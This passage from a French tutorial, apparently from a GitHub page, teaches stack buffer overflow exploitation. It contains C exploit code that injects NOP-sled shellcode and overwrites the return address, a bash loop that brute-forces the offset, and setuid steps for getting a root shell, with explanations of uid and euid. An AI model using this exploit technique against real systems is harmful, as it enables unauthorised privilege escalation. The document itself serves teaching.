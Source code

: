         for (i = 0; i < 268 - strlen(shellcode); i++, ptr++)
            *ptr = NOP;
        for (i = 0; i < strlen(shellcode); i++, ptr++)
            *ptr = shellcode[i];

        int offset = atoi(argv[1]);
        long esp = getESP();
        long ret = esp + offset;
        printf("ESP Register : 0x%x\n", esp);
        printf("Offset       : %i\n", offset);
        printf("Address      : 0x%x\n", ret);

        *(long*)ptr = ret;
        ptr += 4;
        *(char*)ptr = '\0';

        execl("/home/sdi/overflow/prog1", "prog1", buffer, NULL);
    }

    long getESP(void) {
    __asm__("mov    %esp,%eax");
    }

Pour déterminer l'offset, on peut passer par un bout de code bash, les tentant tous un par un dans un boucle infini en partant de -1:

    A=-1; while [ 1 ]; do A=$((A+1)); ./a.out $A; done

Nous allons ainsi finir par obtenir un terminal utilisateur.

Pour obtenir un terminal root, il faut que le propriétaire du binaire vulnérable soit le root. 
Le bit `suid` dans les droits d'un fichier exécutable signifie que ce fichier sera exécuté au nom de son véritable propriétaire, peu importe l'utilisateur qui lance le programme.

Si on change les droits de notre programme:

    # chown root:root prog1
    # chmod 4755 prog1

Et qu'on revient en utilisateur, puis que l'on relance l'exploit, nous obtenons un shell root

#### Les bits uid
En examinant le code de l'exploit, on peut remarquer que le shellcode commencent par deux instructions :

    \x33\xc0\x31\xdb
    \xb0\x17\xcd\x80
Soi les fonctions C suivantes :

    setuid(0);
    setgid(0);

L'`uid` identifie l'utilisateur. 
L'`euid` dans un processus identifie l'utilisateur à l'origine du processus. 
Les shells récents comparents si leur `euid` est similaire à l'`uid` de l'utilisateur qui les appelle. Si ce n'est pas le cas, ils fixent leur `euid` à l'`uid` comparé. 
Donc si nous ne mettons pas ces deux instructions, le shell obtenu aurait été seulement utilisateur. Pourquoi ?
Parce que l'`uid` de l'appelant (utilisateur) étant différent du `euid` du shell (root), le shell corigerait son `euid` avec m'`uid` utilisateur.
